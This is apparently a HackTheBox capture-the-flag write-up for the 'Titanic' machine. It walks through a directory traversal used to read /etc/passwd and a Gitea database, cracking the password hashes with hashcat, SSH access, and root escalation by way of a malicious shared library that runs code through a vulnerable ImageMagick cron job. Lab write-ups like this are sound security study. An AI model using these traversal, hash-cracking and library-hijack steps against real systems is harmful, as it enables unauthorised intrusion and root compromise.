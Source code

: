 ## **Introduction :**
- *machine* : https://app.hackthebox.com/machines/Titanic.
- *Difficulty*: Easy.
this writeup details the process to exploit Titanic machine on HackTheBox , By enumerating services on ports 80 and 20 , we discover **Directory Traversal** vulnerability , and Gitea on a subdomain , that enable us retrieve credential for developer user , after logging in via a SSH , we found a script that uses vulnerable version of `ImageMagick` (v7.1.1) that we can exploit to escalate privilege to root.

## **Enumeration :**
1. Nmap scan : 
```Bash
└─# nmap -sS -sC -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-05 12:37 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.71s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
```
There are tow ports open  : 
- 22 (SSH)
- 80 (HTTP)

## **Initial foothold :**
#### Web on port 80 :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/1.png)

checking http://titanic.htb/ , we found a simple website. One interesting part from website is `/book`  which returns a JSON file after filling out a form , by Burp Suite we discover redirection to `/download?ticket=a_id.JSON` .
### Directory Traversal :
- By testing **Directory Traversal** by replacing `a_id.json` with `../../../etc/passwd` , it allows us to read the content of `/etc/passwd` from the server. 
- form  `/etc/passwd`, we found a user developer , and also by reading file `/etc/hosts` (or using any tool like `Gobuster` , `ffuf`) we found a subdomain `dev.titanic.htb`

```bash 
└─# gobuster dns -d titanic.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     titanic.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.titanic.htb

```
![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/2.png)
### Subdomain enumeration :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/3.png)

- checking `http://dev.titanic.htb/` , we found Gitea page .
- in Gitea , there are tow repositories `docker-config` and `flash-app` .
- Reading their content, we didn't find anything interesting in the `flask-app` repository , but `docker-config` reveals Gitea is running in Docker container and store the data in `/home/developer/gitea/data` .

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/4.png)
- now we can try to exploit this to read data files. 

### Extract Gitea database : 

- by reading documentations of Gitea and some research  , we know that data is stored in the SQLite file `gitea.db` and the file is stored in `/data/gitea` inside the container. 
- Gitea stores its SQLite database in `/data/gitea/gitea.db` , and contain mount  `/home/developer/gitea/data:/data` , That means anything in the container's `/data` path will be mirrored to your host's `/home/developer/gitea/data`.
- so the finally path that we use to read data by exploit Directory Traversal vulnerability is `/home/developer/gitea/data/gitea/gitea.db`
- by visiting http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db we can save the file locally 
- open `gitea.db` in SQLite 
```bash
└─# sqlite3 gitea.db          
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
...
.....
```

- we found a table user containing hashed password , salt , email and also algorithm that used for hashing
### Cracking the passwords :

- we can use `hashcat` tool to crack the password.
- first we need to convert them to base64 by using this [script](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/titanic_machine/hashcat_forma_PBKDF2.py)
- create a file named `hashes.txt` with hash and salt with the format `sha256:50000:salt:hash`
- the run `hashcat` to find plaintext password for developer : `hashcat.exe -m 10900 -a 0 hashes.txt rockyou.txt`
### developer shell : 

- now , we can login in via SSH.
```bash 
└─# ssh developer@10.10.11.55
```

- we can find user flag by reading file `/home/developer/user.txt`
## **Privilege escalation :** 
- `sudo -l` shows that the developer user does not have `sudo` privilege, also  there are no SUID binaries that we can exploit.
- in `/opt/scripts` ,we find a script `identify_images.sh ` which runs a vulnerable version of `ImageMagick`  
- `ImageMagick 7.1.1` is vulnerable to arbitrary code execution (you can find a exploitation in google)
- Also this script is owned by root and runs in Cronjob - I know this by looking at the creation date of metadata.log file.
#### exploitation :

- Create a shared library in the current working directory ( `/opt/app/static/assets/images` )

```bash 
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
__attribute__((constructor)) void init(){  
system("cat /root/root.txt > /tmp/root.txt");  
exit(0);  
}  
EOF
```

- once `ImageMagick` process this malicious file , it executes a malicious code and copies `root.txt` to `/tmp/root.txt.`

>but first thing you can do is run the command `ls /root > /tmp/root.txt` to see what files are in this directory. Also we can include a reverse shell. 




